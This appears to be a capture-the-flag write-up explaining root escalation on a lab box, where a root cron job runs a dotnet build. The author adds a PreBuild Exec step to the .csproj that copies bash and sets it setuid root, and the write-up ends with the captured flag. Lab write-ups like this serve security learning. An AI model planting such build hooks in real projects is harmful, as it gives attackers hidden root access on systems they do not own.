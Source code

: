 Root for this box is about abusing cronjobs and dotnet project builds. Luckily for us, this box is setup with internet access so we can bring our own tools pretty easily :D 

For this you can use pspy to monitor for background processes to find crons. About every minute a cron is used to run a build as root. And because this web app is running from the user's directory, and owned by them too, we can edit files.

I just added a prebuild command to the `.csproj` file. Here, I copied `/bin/bash` then use setuid to get root.

```
<Project Sdk="Microsoft.NET.Sdk.Web">

  <PropertyGroup>
    <PreserveCompilationContext>true</PreserveCompilationContext> <!-- Required for RazorLight...  -->
    <TargetFramework>net8.0</TargetFramework>
    <Nullable>enable</Nullable>
    <ImplicitUsings>enable</ImplicitUsings>
  </PropertyGroup>

  <ItemGroup>
    <PackageReference Include="RazorLight" Version="2.3.1" />
  </ItemGroup>


  <Target Name="PreBuild" AfterTargets="PreBuildEvent">
    <Exec Command="cp /bin/bash /tmp/benkyou; chmod 4755 /tmp/benkyou" />
  </Target>

</Project>
```

Flag: `brunner{M1Gr4T3_Th353_pR1v1l3G35!_H4H4_G0T_3M}`


Solved by: benkyou